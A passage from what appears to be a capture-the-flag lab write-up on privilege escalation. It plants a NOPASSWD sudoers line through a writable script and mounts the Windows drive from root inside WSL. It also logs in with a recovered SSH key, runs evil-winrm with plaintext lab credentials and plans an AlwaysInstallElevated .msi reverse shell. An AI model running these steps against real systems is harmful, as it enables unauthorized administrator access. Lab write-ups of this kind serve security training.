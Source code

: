 ```bash
echo 'echo "dev-datasci ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > jupyter
```

![image.png](image%2011.png)

Now we are root, so we can mount windows host directories to WSL:

```bash
mount -t drvfs C: /mnt/c
```

[Pentesting WSL](https://exploit-notes.hdks.org/exploit/windows/wsl/wsl-pentesting/#escape-wsl-to-windows-host-machine)

- When you're **root inside WSL**, and you mount `C:` using `mount -t drvfs C: /mnt/c`, **being root in WSL effectively bypasses Windows file permission checks** *inside* WSL.
- DrvFs **does not enforce** NTFS file permissions strictly when accessed from WSL **as root**.
- WSL *trusts* you as root inside the Linux subsystem — and **Windows itself** isn't enforcing the ACLs (Access Control Lists) on WSL file operations directly.

### 2nd way

We are gonna use SSH private key found under `dev-datasci` user `home` directory and login using it with SSH, but pay attention that user in Windows is not called `dev-datasci` but `dev-datasci-lowpriv` as the name of the file suggests.

```bash
ssh dev-datasci-lowpriv@$IP -i dev-datasci-lowpriv_id_ed25519
```

Now we are inside of a Windows machine and we can read `user.txt`:

![image.png](image%2012.png)

Running [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) I identified Autologon credentials of dev-datasci-lowpriv I am gonna use it for Administrator:

![image.png](image%2013.png)

```bash
evil-winrm -i 10.10.95.231 -u Administrator -p 'wUqnKWqzha*W!PWrPRWi!M8faUn'
```

## Credentials

```text
dev-datasci-lowpriv : wUqnKWqzha*W!PWrPRWi!M8faUn
```


That didn’t work.

I have found `AlwaysInstallElevated` registry key set, so we just need to make `.msi` file and execute it from Windows host as reverse shell.

![image.png](image%2014.png)
